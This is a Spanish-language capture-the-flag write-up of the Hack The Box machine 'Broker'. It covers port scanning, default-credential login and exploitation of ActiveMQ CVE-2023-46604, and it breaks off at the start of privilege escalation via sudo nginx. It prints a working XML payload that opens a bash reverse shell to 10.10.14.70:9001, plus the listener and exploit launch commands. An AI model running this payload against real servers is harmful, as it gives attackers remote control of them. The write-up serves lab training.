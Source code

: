 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><img src="../../../.gitbook/assets/SignIn.png" alt=""><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><img src="../../../.gitbook/assets/ActiveMQ.png" alt=""><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.

{% embed url="https://activemq.apache.org/" %}

**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604?ref=blog.ecoit.com.br" %}

{% embed url="https://mvnrepository.com/artifact/org.apache.activemq/apache-activemq/5.15.15" %}

**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**

{% embed url="https://github.com/rootsecdev/CVE-2023-46604" %}

**Se hace un git clone.**

<figure><img src="../../../.gitbook/assets/Arch.png" alt=""><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python -m http.server 
nc -lvvp 9001
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```

<figure><img src="../../../.gitbook/assets/terminal.png" alt=""><figcaption></figcaption></figure>

**Navegamode por los directorios hasta encontrar user.txt que tiene la primer bandera.**

<figure><img src="../../../.gitbook/assets/Primer.png" alt=""><figcaption></figcaption></figure>

## **Escalada de privilegios.**

**Hacemos un `sudo -l`**&#x20;

<figure><img src="../../../.gitbook/assets/Ruta.png" alt=""><figcaption></figcaption></figure>

**Eso demuestra que se puede ejecutar con sudo nginx.**

**Ahora navegamos a la carpeta /home ,y copiamos el archivo /etc/nginx/nginx.conf a /tmp**

